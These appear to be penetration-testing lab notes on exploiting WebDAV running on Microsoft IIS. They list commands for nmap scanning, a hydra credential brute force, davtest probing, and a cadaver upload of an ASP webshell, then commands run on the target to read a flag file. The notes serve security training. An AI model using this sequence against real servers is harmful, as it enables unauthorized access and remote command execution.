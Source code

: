Microsoft IIS
	- IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
	- It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.
	- IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.
	- Typically configured to run on ports 80/443.
	- Supported executable file extensions: `.asp`, `.aspx`, `.config`, `.php`

WebDAV
	- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
	- WebDAV essentially enables a web server to function as a file server for collaborative authoring.
	- WebDAV runs on top Microsoft IIS on ports 80/443.
	- In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

WebDAV Exploitation
	- The first step of the exploitation process would involve identifying whether WebDAV has been configured to run on the IIS web server.
	- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
	- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

Tools used for WebDAV Exploitation
	- davtest
		- davtest is used to scan, authenticate and exploit a WebDAV server.
		- Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.
	- cadaver
		- cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.
		- Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.

Practical Demonstration
	- `sudo nmap -sV -sC 10.2.17.124`
	- `sudo nmap -sV -p 80 --script=http-enum 10.2.17.124`
	- We can use the web browser to verify that a web application is hosted on the web server.
	- Using hydra to perform brute-force attacks:
		- `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/`
	- The username and password have been provided in the lab to prevent us from spending time on performing a bruteforce attack, the username is `bob` and the password is `password_123321`.
	- `davtest`
	- `davtest -url http://10.2.17.124/webdav`
	- `davtest -auth bob:password_123321 -url http://10.2.17.124/webdav`
	- davtest here checks for a connection, and permissions for: folder creation, upload (file formats), and execution (file formats).
	- `cadaver --help`
	- `cadaver http://10.2.17.124/webdav`
		- `bob`
		- `password_123321`
		- `ls`
		- `ls -a /usr/share/webshells/asp`
		- `put /usr/share/webshells/asp/webshell.asp`
	 - The web-shell we used provides us with command execution on the server when the file is executed through a browser.
		- `whoami`
		- `ipconfig`
		- `dir C:\`
		- `type C:\flag.txt`